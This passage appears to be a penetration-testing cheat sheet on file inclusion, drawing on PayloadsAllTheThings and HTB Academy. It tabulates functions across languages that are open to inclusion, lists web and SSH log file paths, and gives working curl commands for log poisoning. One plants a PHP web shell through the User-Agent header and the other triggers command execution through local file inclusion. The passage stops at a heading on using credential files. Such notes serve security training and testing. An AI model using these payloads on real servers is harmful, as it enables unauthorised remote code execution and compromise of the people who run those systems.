 Credits:
[PayloadsAllTheThings - File Inclusion](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion)

[HTB Academy - File Inclusion](https://academy.hackthebox.com/course/preview/file-inclusion)

|**Function**|**Read Content**|**Execute**|**Remote URL**|
|---|:-:|:-:|:-:|
|**PHP**||||
|`include()`/`include_once()`|✅|✅|✅|
|`file_get_contents()`|✅|❌|✅|
|**Java**||||
|`import`|✅|✅|✅|
|**.NET**||||
|`@Html.RemotePartial()`|✅|❌|✅|
|`include`|✅|✅|✅|
#### Local File Inclusion

##### Log Poisoning

The following log files are controllable and can be included with an evil payload to achieve a command execution

```
/var/log/apache/access.log
/var/log/apache/error.log
/var/log/httpd/error_log
/usr/local/apache/log/error_log
/usr/local/apache2/log/error_log
/var/log/nginx/access.log
/var/log/nginx/error.log
/var/log/vsftpd.log
/var/log/sshd.log
/var/log/mail
```

Poison the User-Agent in access logs:
```
curl http://example.org/ -A "<?php system(\$_GET['cmd']);?>"
```

NOTE: The logs will escape double quotes so use single quotes for strings in the PHP payload.

Then request the logs via the LFI and execute your command.
```
curl http://example.org/test.php?page=/var/log/apache2/access.log&cmd=id
```

##### LFI to RCE via credentials files
